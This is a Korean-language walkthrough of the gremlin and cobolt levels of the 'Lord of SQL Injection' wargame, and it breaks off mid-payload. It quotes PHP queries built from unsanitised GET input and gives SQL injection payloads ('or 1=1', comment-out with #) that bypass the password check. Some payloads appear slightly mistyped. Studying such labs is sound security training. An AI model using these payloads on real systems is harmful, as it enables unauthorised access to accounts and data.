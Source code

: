 #LOS
=========
LORD OF SQL INJECTION 풀이
---------
### #gremlin#

if($result['id']) solve("gremlin"); 이 문장에 집중.<br>
만약, id의 값이 있으며녀 gremlin을 풀 수 있다. <br><br>

다만,<br>
$query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";<br>
위 쿼리문에 따르면 id와 pw값 모두 GET을 받아야 한다.<br>
id와 pw가 and로 묶여있기 때문에 id에 넣어준 값에 대한 pw가 참이 되게 해야한다. <br><br>

참이 되게하는 가장 기본적인 문장이 있다. <b>'pw=1' or '1=1'</b><br>
이 문장을 사용해 pw의 값이 참이되게 해준다.<br><br>

?id='admin'&&pw=1 or 1=1 <br><br>

조금 더 간단한 방법을 이용하자면 id의 값을 받은 뒤 pw가 있는 곳을 주석처리해버리면 된다.<br><br>

?id-'admin' # pw=''

### #cobolt#

if($result['id'] == 'admin') solve("cobolt");<br>
이 문장을 보면, id값이 admin일 때 cobolt를 풀 수 있다고 나와있다.<br><br>

$query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')";<br>
위 커리문에 따르면, id의 값과 pw의 값을 모두 받을 수 있다.<br>
pw에 대한 조건이 주어지지 않았음으로, pw는 gremlin과 같은 방법으로 참을 만들어준다.<br>
다만, pw에는 md5('')를 무효화 시켜주기 위해 <br>
  
?id='admin'&&pw='1' or '1=1'<br><br>

또는 gremlin과 같이 pw를 주석처리해준다.<br><br>

?id=
